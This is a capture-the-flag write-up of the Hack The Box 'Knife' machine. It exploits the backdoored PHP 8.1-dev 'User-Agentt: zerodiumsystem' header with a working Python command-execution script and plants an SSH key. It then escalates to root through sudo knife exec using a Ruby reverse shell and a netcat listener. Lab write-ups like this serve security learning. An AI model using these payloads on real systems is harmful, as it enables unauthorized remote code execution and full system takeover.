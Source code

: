 ```yaml
---
title: Knife
description: PHP 8.1 dev exploit
---
```


# Knife HTB

## PHP 8.1-dev exploit :

The **PHP** version used on the server has a backdour, you can exploit it through the **http-header** "User-agentt" (yes with 2 "t") followed by "zerodiumsystem(' your command ')".
Here is the script I made :

```py
import requests

while True:
    cmd = input('$ ')

    r = requests.get(f'http://knif.htb/',headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
        "User-Agentt": "zerodiumsystem('" + cmd + "');"
    })

    res = r.text.split('<!DOCTYPE html>')[0]

    print(res)
```

I used it to echo my **SSH** public key in the `/home/james/.ssh/authorized_keys` file.
Then I connected via ssh as user **james**.

Once connected I tried the usual `sudo -l` command and got a promissing result :

```bash
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

So I searched online how to execute ruby command with knife, I assumed it was **ruby** because the file stored at `/usr/bin/knife` was written is **ruby**.
I found this command :

```bash
knife exec -E 'ruby command'
```

With that in mind I headed to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ruby) and retrieved a ruby reverse shell :

```ruby
exit if fork;c=TCPSocket.new("<IP>","<PORT>");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}
```

Finally I started a netcat on my machine to catch the connection from the reverse-shell, in the end it looked like this :

1.  on my machine

```bash
nc -lnvp <PORT>
```

2. on knife.htb

```bash
sudo knife exec -E 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

And voila we now have **root** access, for fun I coppied my ssh pubkey again to connect as **root**.

### Thank's for reading :)
